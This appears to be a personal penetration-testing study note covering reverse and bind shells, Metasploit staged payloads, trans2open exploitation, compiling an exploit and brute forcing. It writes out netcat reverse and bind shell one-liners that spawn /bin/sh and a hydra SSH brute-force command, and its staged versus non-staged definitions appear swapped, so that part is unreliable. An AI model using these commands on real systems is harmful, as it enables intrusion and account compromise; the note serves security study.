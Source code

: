 
Reverse shell vs Bind Shell

###### Reverse shell - Target connect to us
  `netcat`
target is connecting and attack box is listening

	Attack box						Target machine			
nc -nlvp 4444 <-----reverse shell----- nc $ip 4444 -e /bin/sh

Attack box is listening and the connection is getting established from the target machine.

###### Bind Shell - we connect to the target

We will send a exploit and it spawns a listener from the target machine and attack box will makes a connection.

	 Attack box						Target machine			
nc $ip 4444 -------Bind Shell---------> nc -nvlp 4444 -e /bin/sh

bind shell will work in many ways for bypassing the firewalls

Staged and Non staged
###### Staged :
* Send exploits all at once.
* Larger in size, 
Eg: windows/meterpreter/reverse_tcp

###### Non staged
* Send payloads in stages.
* can be less stable 
Eg: windows/meterpreter_reverse_tcp

###### Gaining Root with metasploit
Checking for trans2open

If msfconsole was sending the stage means, the payload works and trying to open the session.
![[Pasted image 20230705062857.png]]

If you got session opened and closed in a same time. Try to change the staged payload to non staged payload.![[Pasted image 20230705063438.png]]

If it doesn't work change the payload options in metasploit by using this command.
`set payload linux/X86/shell_reverse_tcp`


###### Manual Exploitation :
Demo shown from Github: https://github.com/heltonWernik/OpenLuck

Syntax for using gcc compiler:
```bash
gcc -o *put_any_name* CompilingFile.c
```

put_any_name - after compiling the raw file we will get the executable file, which is good to be run.

##### Brute Forcing:
`hydra -l loginname -P /usr/share/wordlists/somepasswordlist.txt ssh://192.168.21.24 -t 4 -V`

##### Credential Stuffing and Password Spraying

Using burpsuite intruder method spraying the password

[Note:] #ActiveDirectory accounts may get locks without even trying the wrong password attempts. So before starting an attack you have to ask the company about invalid attempts for brute force login.
